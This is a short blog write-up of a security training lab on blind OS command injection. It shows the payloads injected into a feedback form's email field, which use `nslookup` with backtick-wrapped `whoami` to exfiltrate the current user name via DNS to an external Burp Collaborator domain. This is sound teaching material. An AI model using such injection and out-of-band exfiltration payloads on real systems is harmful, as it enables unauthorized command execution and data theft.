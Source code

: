 ```yaml
---
layout: post
title:  "Blind OS command injection with out-of-band data exfiltration"
date:   2024-10-15 11:20:54 +0530
---
```


## Objective 

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab. 

## Solution 

Just like the last lab related OOB interaction, we can use the same following payload `|| nslookup m0nc1evdkdpq2lzcalmyvzxnmes6gw4l.oastify.com ||` and pass this through the `email` field and let's check whether any interactions 

Awesome, we got the DNS interaction 

![]({{ site.baseurl }}/assets/images/os-13.png)

Now, let's kinda fine tune the payload like `|| nslookup `whoami`.m0nc1evdkdpq2lzcalmyvzxnmes6gw4l.oastify.com ||` where the backticks will act as a inline execution of bash commands over there 

Resend the payload through the `email` field and looking into the collaborator found that the `whoami` executed 

![]({{ site.baseurl }}/assets/images/os-14.png)

`whoami` command resulted in `peter-iAmZjL` and submitting as solution.. Solves the lab 

![]({{ site.baseurl }}/assets/images/os-15.png)
